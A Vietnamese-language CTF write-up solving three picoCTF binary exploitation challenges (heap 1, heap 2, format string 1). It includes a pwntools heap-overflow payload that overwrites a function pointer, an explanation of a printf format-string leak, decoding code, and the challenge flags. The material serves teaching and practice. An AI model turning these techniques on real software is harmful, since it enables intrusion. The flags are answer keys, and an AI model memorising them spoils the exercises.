# heap 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/439?category=6&difficulty=2&page=1)
## Solution
- Bài này giống bài [heap 0](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/easy/writeup.md), tuy nhiên có sự khác biệt ở chỗ biến `safe_var` phải là chuỗi `pico` thì ta mới thu được flag
- Thực hiện `nc tethys.picoctf.net 55200`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-1.png)
## Flag
```picoCTF{starting_to_get_the_hang_9e9243f9}```
# heap 2
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/435?category=6&difficulty=2&page=1)
## Solution
- Đọc hàm `main` của file `chall.c`, ta vẫn thấy motip giống nhau đều là nhập `buffer` để làm tràn số, tuy nhiên bài này khó ở chỗ là chúng ta phải hiểu hàm `check_win`
```C
void check_win() { ((void (*)())*(int*)x)(); }
```
- Search chatgpt, tôi biết được rằng hàm này cho phép thực thi hàm `win` thông qua địa chỉ được lưu trong `x` hay nói cách khác `x` chính là địa chỉ của hàm `win`
-> Chúng ta phải đi tìm địa chỉ hàm `win`
- Sử dụng câu lệnh `objdump -D chall | grep win` ta thu được địa chỉ hàm win là `00000000004011a0`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-2.png)
- Chúng ta phải chuyển địa chỉ hàm `win` sang `little-endian` để tiến hành viết payload. Lý do phải chuyển sang `little-endian` là vì:
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-3.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-4.png)
- Viết payload để lấy flag:
```Python
from pwn import *

p = remote("mimas.picoctf.net", 51605)

payload = b'2'
p.sendlineafter(b"Enter your choice: ", payload)
payload = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00'
p.sendlineafter(b"Data for buffer: ", payload)
payload = b'4'
p.sendlineafter(b"Enter your choice: ", payload)

p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-5.png)
## Flag
```picoCTF{and_down_the_road_we_go_91218226}```
# format string 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&page=1)
## Solution
- Đọc qua đoạn code `C`, ta thấy bug ở dòng 36
```C
printf(buf);
```
- Đây là lỗ hổng `format string` khi in `buf` không đúng định dạng, dẫn tới việc có thể khai thác lỗ hổng thông qua dòng code đó
- Tiến hành `netcat` tới server, ta thu được chuỗi `hex`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-6.png)
- Lấy đoạn `hex` sau `(nil)`, tiến hành loại bỏ những đoạn `hex` không có ý nghĩa và viết code thu được flag
```Python
hex = ["7b4654436f636970",
       "355f31346d316e34",
       "3478345f33317937",
       "35365f673431665f",
       "7d313464303935",]
print((bytes.fromhex(hex[0])[::-1] +
       bytes.fromhex(hex[1])[::-1] +
       bytes.fromhex(hex[2])[::-1] +
       bytes.fromhex(hex[3])[::-1] +
       bytes.fromhex(hex[4])[::-1]).decode())
```
## Flag
```picoCTF{4n1m41_57y13_4x4_f14g_65590d41}```
